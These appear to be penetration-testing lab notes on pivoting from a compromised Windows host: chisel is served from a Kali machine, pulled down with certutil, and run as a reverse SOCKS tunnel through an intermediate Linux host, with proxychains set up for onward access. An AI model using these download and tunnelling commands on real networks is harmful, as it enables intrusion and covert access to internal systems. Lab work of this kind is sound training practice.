 setup python http server in /opt
```bash
┌──(root㉿kali)-[/opt/chisel]
└─# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.110.3 - - [14/Aug/2023 17:48:37] "GET /chisel_windows HTTP/1.1" 200 -
10.10.110.3 - - [14/Aug/2023 17:48:43] "GET /chisel_windows HTTP/1.1" 200 -
```
grabbed chisel over to joe-lptp
```shell
C:\Users\adm1n\Desktop>certutil -urlcache -split -f "http://10.10.16.7:8000/chisel_windows"
certutil -urlcache -split -f "http://10.10.16.7:8000/chisel_windows"
****  Online  ****
  000000  ...
  846600
CertUtil: -URLCache command completed successfully.

C:\Users\adm1n\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is D946-97E4

 Directory of C:\Users\adm1n\Desktop

08/14/2023  02:48 PM    <DIR>          .
08/14/2023  02:48 PM    <DIR>          ..
08/14/2023  02:49 PM         8,676,864 chisel_windows
08/14/2023  02:44 PM           207,360 rev2.exe
               2 File(s)      8,884,224 bytes
               2 Dir(s)  16,608,575,488 bytes free

C:\Users\adm1n\Desktop>

```
setting up chisel reverse server on NIX01
```bash
root@NIX01:~# ./chisel_nix server --socks5 --reverse -p 1001
```
setting up chisel reverse clien on JOE-LPTP
- had to rename this to chisel.exe - was previously chisel_windows
```bash
chisel.exe client 172.16.1.23:1001 R:2080:socks
```
edited the /etc/proxychains4 file
![[Pasted image 20230814181504.png]]
### The Proxychains story so far

->Kali - Attacking machine 10.10.16.7
--> 10.10.110.123 NIX01 on port 1080
---> 172.16.1.201 JOE-LPTP on port 2080
